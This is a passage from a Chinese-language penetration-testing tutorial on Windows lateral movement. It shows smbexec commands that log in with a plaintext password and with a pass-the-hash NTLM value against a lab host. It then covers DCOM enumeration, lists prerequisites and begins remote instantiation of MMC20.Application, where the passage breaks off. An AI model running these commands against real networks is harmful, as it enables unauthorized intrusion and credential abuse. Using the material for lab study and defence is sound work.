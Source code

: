 ### 使用明文

#### 1、输入命令

```
smbexec.exe hack.com/administrator:admin@123@192.168.70.16
```

#### 使用hash

```
smbexec.exe -hashes aad3b435b51404eeaad3b435b51404ee:579da618cfbfa85247acf1f800a280a4 administrator@192.168.70.16
```



# DCOM远程执行命令横向移动

## DCOM介绍

**DCOM (分布式组件对象模型)是微软的一系列概念和程序接口。它支持不同的两台机器上的组件间的通信,
不论它们是运行在局域网、广域网、还是Internet上。 利用这个接口，客户端程序对象能够向网络中另一台计算机
上的服务器程序对象发送请求,使用DCOM进行横向移动的优势之一在于，在远程主机上执行的进程将会是托管
COM服务器端的软件**

## 获取DCOM列表

```
Get-CimInstance Win32_DCOMApplication
Get-CimInstance -classWin32_DCOMApplication | select appid ,name
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
```

## DCOM横向前提

```
1、需要关闭系统防火墙
2、必须拥有管理员权限
3、在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户
```

## 实验介绍

### MMC20.Application远程执行命令

1、通过PowerShell与DCOM进行远程交互，此外，我们只需要提供一个DCOM ProgID和一个IP地址，然后,
它就从远程返回一个COM对象的实例。

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
```
